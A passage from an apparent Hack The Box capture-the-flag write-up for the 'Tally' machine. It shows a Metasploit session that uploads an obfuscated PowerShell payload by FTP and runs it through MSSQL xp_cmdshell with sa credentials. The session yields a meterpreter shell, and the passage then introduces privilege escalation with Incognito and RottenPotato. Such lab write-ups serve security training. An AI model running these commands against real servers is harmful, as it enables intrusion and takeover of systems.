 Now, upload **Malware2.ps1** to /Intranet via FTP.  
We can execute our payload via MSSQL as previously indicated:

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally]─[root@Arthorias]─[0]─[3508]
╰─[:)] # msfconsole
msf5> use  auxiliary/admin/mssql/mssql_exec
msf5 auxiliary(mssql_exec) > set CMD "powershell -ExecutionPolicy bypass -NoExit -File C:\\FTP\\Intranet\\Malware2.ps1"
msf5 auxiliary(mssql_exec) > info

Basic options:
  Name             Current Setting
  ----             ---------------
  CMD              powershell -ExecutionPolicy bypass -NoExit -File C:\FTP\Intranet\msf.ps1
  PASSWORD         GWE3V65#6KFH93@4GWTG2G
  RHOST            10.10.10.59
  RPORT            1433
  TDSENCRYPTION    false
  USERNAME         sa
  USE_WINDOWS_AUTH false

msf5 auxiliary(mssql_exec) > exploit
{% endhighlight %}  

In the parameter *CMD* of the auxiliary, we must configure it to execute with powershell our obfuscated payload.  
The auxiliary used is *auxiliary/admin/mssql/mssql_exec*.  
The mssql_exec admin module takes advantage of the xp_cmdshell stored procedure to execute commands on the remote system.  
[Reference](https://www.offensive-security.com/metasploit-unleashed/admin-mssql-auxiliary-modules/)  

After the *exploit* command, we have our shell:

{% highlight bash %}
meterpreter > sysinfo
Computer        : TALLY
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_GB
Domain          : HTB.LOCAL
Logged On Users : 7
Meterpreter     : x64/windows
{% endhighlight %}  

## Privilege Escalation

Here the interesting thing is is Sarah’s account is running as the SQL service account. So maybe we can elevate with this knowledge since service accounts usually have special privileges.  

For this final part we will learn to use Incognito and RottenPotato.  
Incognito was originally a stand-alone application that allowed you to impersonate user tokens when successfully compromising a system.  
[Reference](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/).  
